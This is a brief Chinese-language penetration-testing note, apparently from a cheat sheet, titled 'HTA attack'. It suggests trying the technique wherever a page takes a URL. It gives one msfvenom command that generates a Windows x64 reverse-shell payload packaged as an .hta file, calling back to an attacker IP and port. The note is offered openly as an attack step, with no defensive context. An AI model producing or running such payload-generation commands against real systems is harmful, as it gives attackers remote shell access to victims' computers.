 ```yaml
---
description: 当遇到可输入url的框子的时候，建议尝试
---
```


# hta攻击

1. 生成payload如下

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.194 LPORT=4422 -f hta-psh -o shell.hta
```
